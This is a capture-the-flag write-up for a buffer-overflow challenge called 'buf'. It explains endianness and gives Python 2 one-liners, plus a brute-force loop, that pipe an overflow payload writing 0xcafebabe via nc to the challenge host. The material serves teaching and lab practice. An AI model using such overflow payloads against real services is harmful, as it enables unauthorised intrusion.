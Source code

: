 Writeup - buf
=============

This was a simple buffer overflow attack. It may have been a little complicated for
the purposes of this CTF, but if you find it interesting check out COMP6841! Don't
be alarmed if you can't solve it now :)

From the source code, we are able to see that the length of the input has a maximum
length of 19 (as the last byte is a null-byte). So our input will have to be a bit
longer than that in order to overflow into the variable `iAmCool`.

We also need to overflow the buffer with the specially crafted binary string 
`0xcafebabe`. An approach that could be used to do this is by using Python 2 to 
generate our attack string. Python 3 has some weird quirks so we'll ignore it for now.

```sh
python2 -c "print 'A'*20+ '\xbe\xba\xfe\xca'" | nc pwn.ctf.unswsecurity.com 5001 # or python
python2 -c "print 'A'*21+ '\xbe\xba\xfe\xca'" | nc pwn.ctf.unswsecurity.com 5001
python2 -c "print 'A'*22+ '\xbe\xba\xfe\xca'" | nc pwn.ctf.unswsecurity.com 5001
...
```

Notice how the cafebabe is backwards? That would be due to the endianness of the system.
x86 based systems should be little endian which would mean that the least significant byte
would be first. Imagine writing 1 million as 0000001 to get the picture.

I'm not sure if these commands work on Windows, but it should be normal on Linux or MacOS.

**Sidenote: ** here's a neat trick so that you don't have to run each python command manually.

```sh
for i in {20..30}
do
python2 -c "print 'A'*$i+ '\xbe\xba\xfe\xca'" | nc pwn.ctf.unswsecurity.com 5001
done
```
